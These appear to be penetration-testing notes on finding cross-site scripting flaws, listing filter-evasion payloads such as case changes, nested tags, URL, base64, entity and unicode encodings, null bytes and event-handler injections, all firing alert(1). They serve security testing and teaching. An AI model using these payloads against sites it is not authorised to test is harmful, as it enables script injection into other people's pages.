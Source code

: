 -   Find spots where user input appears on page/within page source
    -   Payloads might have to be modified to fit the context of the
        input location
        -   example: if input inserted within existing HTML tag or event
            handler
        -   Add “&gt; at the beginning to close existing tags, for
            example

-   Test with various inputs, see what shows up (test what’s filtered
    and what isn’t)
    -   Script filter evasions
        -   &lt;script&gt;alert(1)&lt;/script&gt;
        -   &lt;scRipt&gt;alert(1)&lt;/scRipt&gt;
            -   Change case to evade filter searching for ‘script’
        -   &lt;scr&lt;script&gt;ipt&gt;alert(1)&lt;/scr&lt;/script&gt;ipt&gt;
            -   Evade filters that don’t search recursively
        -   %3Cscript%3Ealert%281%29%3C%2Fscript%3E
            -   URL-encoded
            -   some applications will decode the input after the filter
                processes it and passes it on
            -   can also double-encode the payload by URL-encoding the %
                signs after the first round of URL encoding
        -   &lt;object data=”data:text/html;base64,
            PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”&gt;
            -   base64 encoded payload
    -   Add malicious event handler
        -   onfocus=alert(1)
        -   onerror=alert(1)
        -   onbeforeactivate=alert(1)
        -   onreadystatechange=alert(1)
        -   more available at
            <http://www.w3schools.com/tags/ref_eventattributes.asp>
    -   Use decimal or hexadecimal format
        -   &amp;\#97;
            -   ‘a’ in decimal format
            -   &amp;\#97;lert(1)
            -   <http://www.ascii.cl/htmlcodes.htm>
        -   &amp;\#x61;
            -   ‘a’ in hexadecimal format
            -   &amp;\#x61;lert(1)
        -   can add leading zeros and/or remove semicolon
            -   &amp;\#00097
            -   &amp;\#x00061
    -   Unicode escape
        -   \\u0061
            -   ‘a’ in Unicode
            -   \\u0061lert(1)
            -   <http://unicode-table.com/en/>
    -   Try inserting null byte before payload
        -   %00
        -   may evade signature-based filters
    -   Can combine encoding methods
        -   e.g. URL-encode the \\ in \\u0061
    -   Other methods of spawning alert box
        -   &lt;img src=x onerror=alert(1)&gt;
        -   &lt;object data=javascript:alert(1)&gt;
        -   &lt;script&gt;eval(String.fromCharCode(97,108,101,114,116,40,49,41))&lt;/script&gt;
        -   Use javascript packer/minifier
-   If your payload executes, or would execute without browser XSS
    filter, the site is vulnerable to XSS
